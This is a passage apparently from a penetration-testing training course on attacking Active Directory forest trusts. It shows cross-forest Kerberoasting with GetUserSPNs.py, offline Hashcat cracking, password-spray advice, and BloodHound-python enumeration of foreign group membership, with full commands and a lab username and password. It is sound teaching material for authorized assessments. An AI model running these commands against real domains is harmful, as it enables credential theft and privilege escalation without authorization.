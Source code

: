 For performing Kerberoasting cross-forest using `GetUserSPNs.py`, we will need credentials of a user that can authenticate to the other domain and specify the `-target-domain` flag in our command.

## Cross-Forest Kerberoasting
```shell-session
$ GetUserSPNs.py -target-domain FREIGHTLOGISTICS.LOCAL INLANEFREIGHT.LOCAL/wley
```

Rerunning the command with the `-request` flag added gives us the TGS ticket. We could also add `-outputfile <OUTPUT FILE>` to output directly into a file that we could then turn around and run Hashcat against.

### Using the -request Flag
```shell-session
$ GetUserSPNs.py -request -target-domain FREIGHTLOGISTICS.LOCAL INLANEFREIGHT.LOCAL/wley  
```

We could then attempt to crack this offline using Hashcat with mode `13100`. If successful it's worth checking to see if this account exists in our current domain and if it suffers from password re-use. Even if we already have control over the current domain, it would be worth adding a finding to our report if we do find password re-use across similarly named accounts in different domains.

Suppose we can Kerberoast across a trust and have run out of options in the current domain. In that case, it could also be worth attempting a single password spray with the cracked password, as there is a possibility that it could be used for other service accounts if the same admins are in charge of both domains. Here, we have yet another example of iterative testing and leaving no stone unturned.

## Hunting Foreign Group Membership with Bloodhound-python

From time to time, we may see users or admins from one domain as members of a group in another domain. Since only `Domain Local Groups` allow users from outside their forest, it is not uncommon to see a highly privileged user from domain A as a member of the built-in administrators group in domain B when dealing with a bidirectional forest trust relationship. If we are testing from a Linux host, we can gather this information by using the [Python implementation of BloodHound](https://github.com/fox-it/BloodHound.py). We can use this tool to collect data from multiple domains, ingest it into the GUI tool and search for these relationships.

On some assessments, our client might provision a VM for us that gets an IP from DHCP and is configured to use internal domain's DNS. We will be on an attack host without DNS configured in other instances. In this case we would need to edit our `resolv.conf` file to run this tool since it requires a DNS hostname for the target DC.

### Adding the Domain information to /etc/resolv.conf
```shell-session
$ cat /etc/resolv.conf 

# Dynamic resolv.conf(5) file for glibc resolver(3) generated by resolvconf(8)
#     DO NOT EDIT THIS FILE BY HAND -- YOUR CHANGES WILL BE OVERWRITTEN
# 127.0.0.53 is the systemd-resolved stub resolver.
# run "resolvectl status" to see details about the actual nameservers.

#nameserver 1.1.1.1
#nameserver 8.8.8.8
domain INLANEFREIGHT.LOCAL
nameserver 172.16.5.5
```

### Running Bloodhound-python Against the domain
```shell-session
$ bloodhound-python -d INLANEFREIGHT.LOCAL -dc ACADEMY-EA-DC01 -c All -u forend -p Klmcargo2
```

### Compressing the File with zip -r
```shell-session
$ zip -r ilfreight_bh.zip *.json
```

### Adding Another Domain to /etc/resolv.conf
```shell-session
$ cat /etc/resolv.conf 

# Dynamic resolv.conf(5) file for glibc resolver(3) generated by resolvconf(8)
#     DO NOT EDIT THIS FILE BY HAND -- YOUR CHANGES WILL BE OVERWRITTEN
# 127.0.0.53 is the systemd-resolved stub resolver.
# run "resolvectl status" to see details about the actual nameservers.

#nameserver 1.1.1.1
#nameserver 8.8.8.8
domain FREIGHTLOGISTICS.LOCAL
nameserver 172.16.5.238
```

### Running Bloodhound-python Against the Other Domain
```shell-session
$ bloodhound-python -d FREIGHTLOGISTICS.LOCAL -dc ACADEMY-EA-DC03.FREIGHTLOGISTICS.LOCAL -c All -u forend@inlanefreight.local -p Klmcargo2
```

After uploading the data we can click `Users with Foreign Domain Group Membership` under the `Analysis` tab and select the source domain as our current domain. Here, we will see the built-in Administrator account for the INLANEFREIGHT.LOCAL domain is a member of the built-in Administrators group in the FREIGHTLOGISTICS.LOCAL domain.

### Viewing Dangerous Rights through BloodHound
![[foreign_membership.webp]]
